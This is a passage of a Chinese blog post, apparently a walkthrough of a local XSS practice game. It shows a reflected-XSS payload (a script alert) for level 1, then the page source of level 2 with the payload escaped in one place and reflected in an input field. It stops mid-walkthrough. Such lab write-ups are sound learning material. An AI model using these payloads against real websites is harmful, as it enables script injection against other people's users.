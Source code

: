 ```yaml
---
title: XSS小游戏
date: 2019-02-25 19:15:28
categories: WEB安全
tags: 靶机实验

---
```

<blockquote class="blockquote-center">生命中遇到最美的景致，并不需要浓墨重彩去描绘，而是平常心踩出的一串淡淡的足迹。</blockquote>

<div align="middle"><iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=33418871&auto=1&height=66"></iframe></div>

今天在网上找到了一个XSS小游戏，觉得蛮好玩的，刚好自己对XSS理解不深，拿来学习正好！

这个XSS程序直接放到phpstudy中，访问即可

那么就开始我们的探索旅程吧！



## Level 1：

根据URL和网页源代码可以看出test变量是可控的

```
http://127.0.0.1/xss/level1.php?name=test
```

```
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level2.php?keyword=test"; 
}
</script>
```

那么可以构造payload，将test替换成payload即可,为：

```
"<script>alert(/xss/)</script>
```

我原先以为需要闭合前面的双引号才可以执行payload进行弹窗，但是不闭合也是可以弹窗的：

```
<script>alert(/xss/)</script>
```

## Level 2:

先把第一关的payload拿来试试，看看被过滤了哪些参数

```
<title>欢迎来到level2</title>
</head>
<body>
<h1 align=center>欢迎来到level2</h1>
<h2 align=center>没有找到和&lt;script&gt;alert(xss)&lt;/script&gt;相关的结果.</h2><center>
<form action=level2.php method=GET>
<input name=keyword  value="<script>alert(xss)</script>">
<input type=submit name=submit value="搜索"/>
</form>
</center><center><img src=level2.png></center>
<h3 align=center>payload的长度:27</h3></body>
</html>
```
